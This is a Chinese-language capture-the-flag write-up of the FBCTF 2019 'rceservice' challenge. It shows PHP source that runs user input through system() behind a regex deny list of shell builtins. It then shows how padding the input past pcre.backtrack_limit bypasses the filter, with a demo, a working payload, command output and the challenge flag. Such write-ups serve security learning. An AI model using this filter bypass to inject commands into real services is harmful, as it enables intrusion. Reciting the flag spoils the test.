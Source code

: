 # rceservice

Solved: 31

<br>

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

這題題目很短，用`preg_match`擋了一堆東西

但我們知道PHP有`pcre.backtrack_limit`限制，預設情況下，當回溯超過`1000000`次時，會回傳 `false`

(https://www.php.net/manual/en/pcre.configuration.php)

![](https://github.com/w181496/CTF/blob/master/fbctf2019/rceservice/pcre.png)

上圖紅底字就代表發生回溯 (regex101 is your good friend)

Example:

```
php > var_dump(preg_match("/union.+select/is", "union select /*".str_repeat("s", 1000000)));
bool(false)
php > var_dump(preg_match("/union.+select/is", "union select /*".str_repeat("s", 1)));
int(1)
```

這在一般弱比較(Weak typing)情形下等同匹配成功

(`false == 0` => `true`)

但這邊其實不用管弱比較，因為他直接把`preg_match`回傳值丟進`if`做判斷

所以當回溯超過上限時，回傳`false`，自動就會略過這個`if`，進入到`else`裡面

e.g.

`'{"cmd":"ls -al /home/rceservice/","zz":"' + "a"*(1000000) + '"}'`

=>

```
drwxr-xr-x 1 root root       4096 May 26 21:20 ..
-r--r--r-- 1 root rceservice   43 May 23 03:58 flag
dr-xr-xr-x 1 root rceservice 4096 May 26 21:20 jail
```

Bypass successfully!


詳細 payload 見[exp.py](https://github.com/w181496/CTF/blob/master/fbctf2019/rceservice/exp.py)

flag: `fb{pr3g_M@tcH_m@K3s_m3_w@Nt_t0_cry!!1!!1!}`
